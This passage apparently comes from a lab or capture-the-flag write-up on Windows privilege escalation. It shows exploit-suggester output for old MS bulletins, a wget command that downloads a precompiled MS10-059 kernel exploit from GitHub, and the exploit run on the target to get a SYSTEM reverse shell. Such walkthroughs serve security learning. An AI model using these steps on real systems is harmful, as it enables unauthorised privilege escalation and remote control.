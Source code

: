 ```none
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

For those who haven't used this tool... the `[M]` refers to Metasploit, and `[E]` refers to a normal exploit.

## Privesc

I went down the list of the suggested vulnerabilities. For some fun and learning, I tried to manually (cross) compile some of the exploits. The basic method was:

- `searchsploit` the MS bulliten number
- Copy (mirror) the exploit using searchsploit
- Try cross compile using mingw

Didn't have much luck, and given my lack of cross-compiling expertise, decided to move on. I have previously strumbled on the [SecWiki](https://github.com/SecWiki/windows-kernel-exploits) which has a bunch of precompiled windows exploits. After trying a couple, had luck with MS10-059. Download the precompiled binary.

```none
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

Upload using FTP - making sure to switch to `binary` mode and change to the `wwwroot` directory. After running once - looks like this spawns a reverse shell.

```none
C:\inetpub\wwwroot>MS10-059.exe
MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```
